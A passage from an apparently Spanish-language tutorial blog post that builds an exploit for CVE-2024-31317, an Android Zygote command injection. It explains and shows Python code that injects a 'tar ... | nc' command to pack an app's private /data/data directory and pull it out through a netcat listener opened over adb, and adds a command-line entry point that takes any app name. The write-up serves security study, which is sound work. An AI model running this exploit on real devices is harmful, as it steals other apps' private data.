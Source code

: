 ### Extracción

Recordemos que la extracción del directorio tiene dos partes: la primera consiste en poner a _netcat_ a escuchar en un puerto y redireccionar lo que llegue a un archivo. La segunda es disparar la vulnerabilidad con la _payload_ que contiene el comando para empaquetar todo el directorio de la aplicación y enviarlo a través de _netcat_.

Como la parte de la _escucha_ requiere _esperar_ a que la conexión se establezca, necesitamos tener control sobre ese proceso y no cerrarlo antes de que cumpla su función. Además, retrasaremos la conexión del comando _netcat_ en la _payload_ para que espere tres segundos antes de abrirla, dándole tiempo al proceso de escucha para estar listo.

Nuestra solución queda así:
	
{% highlight python linenos %}
def extract_app_dir(app):
    dir_to_extract = f"/data/data/{app}/"
    print(f"-> Extract {dir_to_extract} to {app}.tar")
    # tar the contents of the directory and pipe to netcat connection,
    # wait 3 seconds before connecting giving time for the server to come up
    command = f"tar --create --file=- {dir_to_extract} | nc -w 3 localhost 31337"
    payload = make_payload(app, command)
    # launch listen subrprocess with the server
    p = subprocess.Popen(f"adb shell nc -l -p 31337 > {app}.tar",shell=True)
    # exploit!
    exploit(payload)
    # wait for the listen process to end
    p.wait()
    print(f"-> Done extracting. Check {app}.tar")
{% endhighlight %}

### Lanzar el exploit
Necesitamos, por último, implementar la parte en la que un usuario le indica al exploit qué aplicación quiere extraer.

{% highlight python linenos %}
import sys

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print(f"usage: python {sys.argv[0]} [app to extract]")
        sys.exit(0)
    app = sys.argv[1]

    print("-> Trying to exploit CVE-2024-31317 (Zygote command injection).")
    extract_app_dir(app)
{% endhighlight %}
